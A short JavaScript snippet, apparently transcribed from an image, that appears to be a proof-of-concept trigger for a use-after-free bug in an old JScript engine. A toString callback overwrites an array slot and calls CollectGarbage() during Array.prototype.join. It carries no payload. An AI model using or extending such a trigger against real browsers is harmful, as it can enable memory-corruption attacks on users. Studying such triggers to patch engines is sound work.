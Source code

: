 

var vars = new Array(100);
for(var i=0;i<100;i++) vars[i] = {};

function f() {
  vars[1] = 1;
  CollectGarbage();
  return {};
}

vars[1].toString = f;
Array.prototype.join.call(vars);


